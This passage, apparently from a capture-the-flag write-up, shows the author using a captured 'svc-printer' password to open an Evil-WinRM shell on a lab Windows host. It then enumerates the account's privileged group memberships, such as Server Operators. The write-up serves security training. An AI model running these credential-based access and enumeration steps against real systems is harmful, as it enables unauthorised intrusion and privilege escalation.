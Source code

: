 We successfully captured the clear-text password for the **`svc-printer`** user. Since port **`5985`** is open (it is the [WinRM](https://en.wikipedia.org/wiki/Windows_Remote_Management) service), we can try to connect to it with those credentials using [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) : 

```bash
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 10.129.95.241 -u svc-printer -p '[HIDDEN]'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                                                                                                   

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-printer\Documents>
```

We successfully gained an initial access on the target system via the [WinRM](https://en.wikipedia.org/wiki/Windows_Remote_Management) service. Why do user account `**svc-printer**` has access to the [WinRM](https://en.wikipedia.org/wiki/Windows_Remote_Management) service ? This may be considered as a vulnerability since it gives more privileges to this account than it needs.

# Local enumeration

Let’s see what privileges does **`svc-printer`** have : 

```powershell
*Evil-WinRM* PS C:\Users\svc-printer\Documents> whoami /all
                                                                                                                              
USER INFORMATION                                                                                                              
----------------                                                                                                              
                                                                                                                              
User Name          SID                                                                                                        
================== =============================================                                                              
return\svc-printer S-1-5-21-3750359090-2939318659-876128439-1103                                                              
                                                                                                                              
                                                                                                                              
GROUP INFORMATION                                                                                                             
-----------------                                                                                                             
                                                                                                                              
Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Server Operators                   Alias            S-1-5-32-549 Mandatory group, Enabled by default, Enabled group
BUILTIN\Print Operators                    Alias            S-1-5-32-550 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
```
